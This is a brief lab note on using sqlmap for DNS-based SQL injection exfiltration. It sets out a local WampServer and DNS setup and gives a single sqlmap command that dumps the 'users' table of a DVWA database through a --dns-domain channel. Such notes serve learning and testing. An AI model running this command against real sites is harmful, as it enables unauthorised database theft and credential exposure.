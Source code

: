 ```yaml
---
title: SQLMAP Dns Injection
date: 2016-08-09 13:42:50
tags: sqlmap && dns injection
---
```


0x01 Environment
```
wampserver  ==> Virtual host->waf.com
sqlmap      ==> sqlmap on win2003
win2003     ==> dns -> 127.0.0.1
```
0x02 Hack fun it
```
> sqlmap.py -u "http://www.example.com/index.php?id=1" --dns-domain="waf.com" -D "dvwa" -T "users" --dump
```